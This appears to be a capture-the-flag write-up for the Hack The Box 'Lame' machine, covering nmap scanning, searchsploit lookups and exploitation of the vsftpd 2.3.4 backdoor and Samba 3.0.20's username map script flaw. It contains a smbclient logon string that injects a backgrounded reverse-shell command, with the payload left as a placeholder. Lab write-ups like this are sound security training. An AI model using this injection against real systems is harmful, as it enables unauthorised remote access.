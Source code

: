 ```yaml
---
title: "Lame"
description: "Writeup for Lame machine from HTB"
date: 2020-07-12
author: "Pablo Jesús González Rubio"
cover: "lame.png"
coverAlt: "Lame icon"
toc: true
tags: [ "Writeup" ]
---
```


## Scanning

We put the IP in hosts: `10.10.10.3 lame.htb`

```
nmap -sC -sV -Pn lame.htb | tee nmap.txt
```

Output:

```
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
39/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```

## Enumeration

### FTP

We look for a version with searchsploit:

```
searchsploit vsftpd 2.3.4
```

It gives us an exploit for Metasploit, but to do it by hand we copy it and search for the source of the PoC:

```
searchsploit -m unix/remote/17491.rb
```

When reading it this [page](https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html) appears.

So this version of FTP has a failure where if you introduce `:)` as the user it would give total access to the FTP. But in this case, this is not working.

### Samba

```
39/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```

Looking in Searchsploit we look for Samba's version and it returns this:

```
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                     | unix/remote/16320.rb
```

## Exploitation

### Metasploit

So, using Samba 3.0.20 exploit from Metasploit we get instant root access to the machine.

### By hand

Same exploit but done by hand, from smbclient:

```
# Connection to the machine
smbclient //lame.htb/tmp
```

We use this command:

```
logon "./=`nohup <REVERSE SHELL>`"
```

With `logon` we are connecting to samba and with `nohup` we are avoiding the connection to hangup.

